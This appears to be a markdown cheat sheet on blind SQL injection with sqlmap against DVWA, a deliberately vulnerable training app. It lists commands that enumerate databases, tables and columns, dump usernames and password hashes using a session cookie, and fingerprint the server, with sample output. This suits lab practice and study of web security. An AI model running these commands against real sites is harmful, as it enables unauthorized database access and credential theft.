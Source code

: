 ## SQL-Injections 
[docs](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
#### SQL (Blind) Injection example  
Blind SQL Injection is often used to build the database schema, and get all the data in the database. This is done using brute force techniques and does require many requests to be sent to the server.  

`sqlmap -u "url-of-attack" --cookie="full cookie name"`  

ex.  
`sqlmap -u 'http://localhost/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#' --cookie="security=low; PHPSESSID=aadfsfsasfsdffsffsdfs"`  
options--
`--dbs`  list databases  
`-D dvwa --tables`  list all tables in the dvwa database  
`-T users --column`  list all columns in table users  
`-C user,password --dump` gets all usernames and password hashes 

#### more examples  
`sqlmap -u "http://example.com/?id=1&Submit=Submit#" --cookie="PHPSESSID=sdfsfsfsfsfslfjafj; security=low" --current-user --hostname --current-db --is-dba --thread=6`  
gives this info  

* `Linux Ubuntu`  
* `Apache 2.4.7, PHP 5.5.9`  
* `MySQL >= 5.0.12`  
* `root@localhost`    
* `dvwa`    
* `ip-10-20-40-33`    
* `True`    

